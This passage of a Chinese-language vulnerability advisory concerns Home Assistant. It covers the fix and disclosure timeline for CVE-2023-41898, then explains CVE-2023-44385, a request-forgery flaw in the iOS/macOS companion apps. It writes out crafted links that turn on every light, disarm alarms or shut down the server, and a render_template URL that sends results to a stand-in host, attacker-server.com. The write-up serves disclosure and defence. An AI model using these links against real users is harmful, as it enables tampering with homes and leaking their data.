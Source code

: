 请注意，CodeQL 的`java/android/unsafe-android-webview-fetch`查询会检测到这个漏洞，并发出警报。

### 缓解方法

Home Assistant 团队迅速通过多种方式解决了这个漏洞。

Close the main entry point by not allowing loading URLs with a host other than my.home-assistant.io. Validate entityId: to conform with the expected format disallowing arbitrary Javascript on its path. For the initial load, validate the constructed URL matches the server base URL (if not opening the URL outside the WebView).

### 时间线

-   2023-07-17: 向 security@home-assistant.io 报告问题。
-   2023-08-28: 由于未收到回复，在公共论坛上发起了请求替代安全联系方式的问题。
-   2023-08-28: Home Assistant 告知我们他们已经转移到 GitHub Private Vulnerability Reporting。
-   2023-08-28: 通过 GitHub Private Vulnerability Reporting 报告了问题。
-   2023-09-10: 修复在 2023.9.2 版本中发布。
-   2023-09-13: CVE-2023-41898 被分配给这个问题。
-   2023-10-20: 发布了安全建议或公告。

## 十一、iOS 和 macOS 原生应用程序中的客户端请求伪造:CVE-2023-44385/GHSL-2023-161

iOS 和 macOS 的伴侣应用程序具有一种功能，允许用户通过 URL 处理程序调用服务和渲染模板。这些 URL 处理程序以`homeassistant://scheme`开头，可以触发调用服务（例如`homeassistant://call_service`、`homeassistant://x-callback-url/call_service`）或渲染模板（例如`homeassistant://x-callback-url/render_template`）等动作。

当用户点击这些链接时，已经与 Home Assistant 认证的伴侣应用程序会向 Home Assistant 服务器发送请求，以执行这些操作。这项功能也适用于 Siri 或 Shortcuts 应用程序使用的 App Intents，这些应用程序可以调用任何服务或渲染任何模板。攻击者可以创建一个误导性的链接或二维码，诱骗受害者点击它。

尽管点击一个`homeassistant://` URL 会提示用户在 Home Assistant 中打开它之前进行确认，但还有其他更隐蔽的攻击方法，例如使用通用链接。Home Assistant 允许使用通用链接，这些链接在`https://www.home-assistant.io/ios/` URL 下注册。这允许我们使用`https://`链接调用任何`homeassistant://` URLs，使这些有效负载看起来不那么可疑。

例如，如果我们分享链接`https://www.home-assistant.io/ios/?url=homeassistant://%2F%2Fcall_service%2Flight.turn_on%3Fentity_id%3Dall`在 Slack 上，那些点击这个看似无害的链接（因为它托管在`www.home-assistant.io`上）的不知不觉的受害者将会无意中打开他们所有的房间的灯。类似的方法也可以用来解除警报（`homeassistant://call_service/alarm_control_panel.alarm_disarm`）或通过扫描二维码关闭 Home Assistant 服务器（\`homeassistant://call\_service/hassio.host\_shutdown）

在某些情况下，攻击者可能需要找到特定服务的实体 ID 或区域名称。在这些情况下，攻击者可以利用`render_template`动作来运行任意模板，并将响应发送到他们自己的服务器：`homeassistant://x-callback-url/render_template?x-success=https:%2F%``2Fattacker-server.com``&template.`

[![](assets/1708919782-309a62ecc229c6b7f59d75df16c40fc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218111305-a2254c4a-ce0b-1.png)
